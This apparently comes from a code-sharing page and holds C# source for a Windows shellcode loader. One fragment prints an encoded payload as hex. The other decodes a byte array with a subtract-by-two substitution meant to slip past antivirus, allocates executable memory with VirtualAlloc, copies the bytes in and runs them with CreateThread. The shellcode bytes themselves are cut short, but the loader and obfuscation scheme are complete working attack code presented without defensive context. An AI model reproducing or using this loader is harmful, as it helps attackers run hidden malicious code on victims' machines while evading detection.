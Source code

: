 ```csharp
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}

```

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
        // copy the encrypted shellcode
            byte[] buf = new byte[636] { 0xfe, 0x4a...};
		// decrypts the encrypted shellcode by using the substitution key of 2 and subtracts
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```
